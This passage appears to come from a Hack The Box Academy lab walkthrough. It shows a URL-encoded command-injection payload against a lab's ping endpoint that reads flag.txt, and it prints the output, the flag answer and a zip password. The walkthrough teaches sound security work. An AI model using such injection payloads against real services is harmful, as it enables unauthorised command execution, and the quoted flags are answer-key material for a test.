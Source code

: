 ```
┌─[us-academy-2]─[10.10.14.94]─[htb-ac413848@htb-sngtigpkku]─[~]
└──╼ [★]$ curl -w "\n" -s 'http://167.99.89.94:30859/ping?ip=127.0.0.1'

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.021 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.021/0.021/0.021/0.000 ms
```

Then, to inject commands, students need to add the double quotes `"` to escape the quotes, add a semi-colon `;` and students will be able to execute any command. However, to avoid causing errors that may prevent getting the correct output, students need to end the command with a semi-colon `;` and comment out the rest of the line with `#`. At last, students need to make sure that the payload has balanced quotes to avoid causing errors, thus, they need to add a double quotes `"` at the end, and then URL encode the entire payload:

Code: shell

```shell
curl 'http://STMIP:STMPO/ping?ip=127.0.0.1%22;%20cat%20flag.txt;%20%23"'
```

```
┌─[us-academy-2]─[10.10.14.94]─[htb-ac413848@htb-sngtigpkku]─[~]
└──╼ [★]$ curl 'http://167.99.89.94:30859/ping?ip=127.0.0.1%22;%20cat%20flag.txt;%20%23"'

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.021 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.021/0.021/0.021/0.000 ms

HTB{n3v3r_3x3cu73_u53r_1npu7}
```

Answer: `HTB{n3v3r_3x3cu73_u53r_1npu7}`

# POST Requests

## Question 1

### "After sending the last POST request we discussed, you will get a 'SyntaxError'. What is the content of this error?"

Using the same `nodejs-server-sourcecode.zip` file downloaded from the first section, students need to unzip (utilizing the password `unSqyU7wQc7uFRBV` when prompted for it) it and then run `server.js`:
